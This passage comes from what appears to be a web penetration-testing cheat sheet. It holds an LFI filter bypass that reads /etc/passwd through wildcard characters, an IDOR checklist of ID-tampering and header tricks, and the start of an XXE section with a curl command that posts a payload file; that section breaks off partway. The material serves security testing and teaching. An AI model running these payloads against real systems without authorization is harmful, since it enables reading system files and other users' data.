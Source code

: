 LFI via this path does not work at first&#x20;

&#x20;`/fileRead.jsp?fileName=/etc/passwd (406)`&#x20;

But after replacing character with ? you may receive a successful response (200)

`/fileRead.jsp?fileName=/?tc/?asswd (200)`

`fileRead.jsp?fileName=/??c/??sswd (200)`
{% endtab %}

{% tab title="IDOR Checklist" %}
* Find and replace `IDs` in urls, headers and body : `/users/01`=> `/users/02`
* Try Parameter Pollution: `users=01` => `users=01&users=02`
* Special Characters: `/users/01*` or `/users/*`  => Disclosure of every single user
* Try Older versions of API endpoints: `/api/v3/users/01` => `/api/v1/users/02`
* Add extension: `/users/01` => `/users/02.json`
* Change Request Methods: POST /users/01 => `GET, PUT, PATCH, DELETE, OPTIONS,`etc
* Check if Referer or other Headers are used to validate `IDs:`
  * [ ] `GET /users/02`                                                              \
    &#x20;  `Referer: example.com/users/`<mark style="color:red;">`01`</mark>                                     =>             `403 Forbidden`\

  *   [ ] `GET /users/02`

      `Referer: example.com/users/`<mark style="color:red;">`02`</mark>                                        =>             `200 OK`
* Encrypted IDs: If application is using encrypted IDs, try to decrypt using hashing/cracking tool
* Send wildcard `{""user_id"":""*""}`
* Send ID twice `URL?id=&id=`
* JSON wrap {“id”:111} --> `{“id”:{“id”:111}}`
* Wrap ID with an array {“id”:111} --> `{“id”:[111]}`
* Swap GUID with Numeric ID or email:\
  `/users/XXXXXXXX-XXXX-XXXX-XXXXXXXXXXXX`   => `/users/02` or `/users/a@b.com`
* Try GUIDs such as:\
  `00000000-0000-0000-000000000000` and `11111111-1111-1111-111111111111`
* GUID Enumeration: Try to disclose GUIDs using `Google Dorks`, `Github`, `Wayback`, `Burp history`
* If none of the GUID Enumeration methods work then try: `SignUp`, `Reset Password`, and `other endpoints` and analyze the responses. An endpoint may disclose user's GUID within the application.
* When a server responds with a 401/403, the action may still be performed. Ensure to verify the function within the application.&#x20;
* Blind IDORs: Look for endpoints/features that may disclose information&#x20;
* Chain IDOR with XSS for Account Takeovers\

{% endtab %}

{% tab title="XXE" %}
Send Post request with path to xml file for exploitation

```bash
curl -d@/home/researcher/Desktop/payloads/poc.xml http://vulnerablesite.com/home/vulnerable.php
```

OR\
Use a script to send payload:\
\
curl.sh
